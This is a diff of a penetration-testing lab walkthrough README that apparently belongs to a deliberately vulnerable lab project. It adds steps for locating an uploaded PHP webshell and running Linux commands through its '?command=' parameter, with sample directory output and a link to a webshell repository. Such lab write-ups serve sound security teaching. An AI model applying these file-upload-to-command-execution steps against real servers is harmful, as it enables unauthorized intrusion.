

Before and after one commit to bayufedra/MBPTL, a Markdown page: writeup/README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/writeup/README.md
+++ b/writeup/README.md
@@ -211,7 +211,18 @@ After login we only see the file upload feature in it, since the website using `
 Other reference Malicious Code:
 - https://github.com/bayufedra/Tiny-PHP-Webshell
 
-After submit it, web will giving response `Book inserted successfully!`
+After submit it, web will giving response `Book inserted successfully!`. but where this file is uploaded? as we remember the port `80` website shown some of table data, and yes we can know where the file is located from there by clicking on `View Details` first and on broken picture try to click right-click on it and choice `Open image in new tab`. We will see page with content like below
+```
+Warning: system(): Cannot execute a blank command in /var/www/html/administrator/uploads/e77a53f1b6b4aba6d1fc86e42767ce4c.php on line 1
+```
+Since server is linux based, now we can execute linux command in server with adding `?command=<linux-command>`. for example `?command=ls -lah` and we will get
+```
+total 16K
+drwxrwxrwx 1 www-data www-data 4.0K Mar  7 15:32 .
+drwxrwxr-x 1 root     root     4.0K Feb 27 14:40 ..
+-rw-r--r-- 1 www-data www-data   34 Mar  7 15:32 e77a53f1b6b4aba6d1fc86e42767ce4c.php
+-rwxrwxrwx 1 www-data www-data    0 Feb 27 14:40 index.php
+```
 
 # Post-Exploitation
 ### Reverse Shell
````
